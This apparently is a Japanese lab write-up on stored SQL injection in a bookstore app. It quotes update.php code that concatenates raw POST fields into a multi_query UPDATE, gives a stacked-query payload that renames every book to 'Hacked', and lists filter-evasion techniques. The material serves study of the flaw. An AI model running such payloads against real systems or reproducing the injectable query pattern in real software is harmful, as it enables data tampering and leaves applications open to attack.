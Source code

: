 real_escape_string()関数で、即時のSQLインジェクションのリスクをある程度軽減できるが、この手法では、StoredSQL Injectionを防ぐことはできない

`test'`と入力してみても、ここでは何も起こっていないように見える
![](https://i.imgur.com/kuLAazk.png)

update.phpというページでは、書籍の詳細を更新できる機能がある
- 過去に保存されたデータをもとに既存の書籍情報を取得し、それを編集可能なフォームフィールドとして表示し、ユーザーの入力に基づいて情報を更新するようになっている
![](https://i.imgur.com/kKECOT0.png)
- アプリケーションが過去に保存された（かつ汚染されている可能性のある）データ、たとえば book_name を再利用していないかを調査する
- 更新機能を悪用することで、挿入段階で仕込んだ悪意あるペイロードが、更新操作時に実行されるかどうかを確認できる

update.phpはこのようになっている
- 目的 : ユーザーが BookStore データベース内の書籍情報を更新
- 
```php
if ( isset($_POST['update'])) { //リクエストメソッドが POST であり、「更新」ボタンが押されたかどうかを確認する
    $unique_id = $_POST['update']; 　　　　　　　　　　　　　　　//ユーザー入力を直接取得する
    $ssn = $_POST['ssn_' . $unique_id];
    $new_book_name = $_POST['new_book_name_' . $unique_id];
    $new_author = $_POST['new_author_' . $unique_id];
    //変数（ssn, new_book_name, new_author）は、書籍情報の更新クエリにそのまま使用する
    // multi_query を使って複数のSQLクエリを一度に実行し、ログ情報を logs テーブルに挿入している
    $update_sql = "UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '$ssn'; 
                   INSERT INTO logs (page) VALUES ('update.php');";
```

SSNを使って書籍情報を追加または変更できることが分かっている
- 通常の更新クエリはこのようになる
	- SSNが123123のものに、本の名前と著者を入れるクエリ
```sql
UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '123123';
```

- しかし、入力を直接、SQLクエリに入れているので、攻撃者は悪用できる
SSNに以下のペイロードを入れると、
```sh
12345'; UPDATE books SET book_name = 'Hacked'; --
```

全ての本の名前をHackedに変更できる
```sh
UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '12345'; UPDATE books SET book_name = 'Hacked'; --
```


# フィルター回避
- 単純なインジェクションは無効化されるケースが多い

使用する方法
- 文字コードエンコーディング
- クォートを使わないSQLインジェクション
- スペースが使えない環境での回避手法
